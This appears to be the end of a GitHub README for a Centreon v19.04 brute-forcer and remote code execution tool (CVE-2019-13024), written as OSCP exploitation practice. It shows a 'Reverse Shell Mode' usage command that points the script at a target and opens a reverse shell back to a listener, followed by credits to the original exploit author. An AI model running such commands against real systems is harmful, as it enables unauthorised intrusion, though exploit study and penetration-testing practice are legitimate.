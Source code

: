 


#### Reverse Shell Mode

Note: You must start your own listener to connect back to.
```bash
python magic.py -t 10.10.10.10 -p 80 -m 3 -i 192.168.69.1 -l 443
```
<img src="https://github.com/0xskunk/Centreon-v19.04-Brute-Forcer-RCE/blob/master/images/shell.png" width="800">


### License and Credits

Code is open source and I welcome feedback, comments and requests. I wrote this in order to try to improve my usage of classes in Python, and as practice for my OSCP custom exploitation attempts.

Originally, @mhasker wrote and discovered the exploit. I just added a brute forcer, the option to execute alternative commands, and shazam with the colours. I've linked his github below - great work.

[mhasker](https://github.com/mhaskar/CVE-2019-13024)
--------

<img src="https://github.com/0xskunk/Resource-Program-for-Cyber-Students/blob/master/images/0xskunk1.PNG" width="250">

[Logo created with LogoMakr](https://my.logomakr.com/)
